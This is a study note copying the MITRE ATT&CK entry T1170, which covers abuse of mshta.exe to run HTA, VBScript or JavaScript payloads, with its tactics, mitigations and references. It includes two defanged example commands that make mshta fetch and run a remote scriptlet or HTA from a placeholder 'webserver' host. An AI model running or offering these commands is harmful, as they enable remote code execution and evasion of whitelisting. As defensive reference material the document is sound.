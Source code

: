 ```yaml
---
alias: T1170
---
```


## T1170

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)


### Tactic
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/tactics/Defense Evasion]] (TA0005)
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/tactics/Execution]] (TA0002)

### Platforms
- Windows

### Permissions Required
- User

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/mitigations/Execution Prevention\|M1038]] | Execution Prevention | Use application whitelisting configured to block execution of mshta.exe if it is not required for a given system or network to prevent potential misuse by adversaries. |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/ICS-Attack/mitigations/Disable or Remove Feature or Program\|M1042]] | Disable or Remove Feature or Program | Mshta.exe may not be necessary within a given environment since its functionality is tied to older versions of Internet Explorer that have reached end of life. |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1170
- Wikipedia HTML Application: https://en.wikipedia.org/wiki/HTML_Application
- MSDN HTML Applications: https://msdn.microsoft.com/library/ms536471.aspx
- Cylance Dust Storm: https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf
- Red Canary HTA Abuse Part Deux: https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
- FireEye Attacks Leveraging HTA: https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html
- Airbus Security Kovter Analysis: https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/
- FireEye FIN7 April 2017: https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html
- LOLBAS Mshta: https://lolbas-project.github.io/lolbas/Binaries/Mshta/
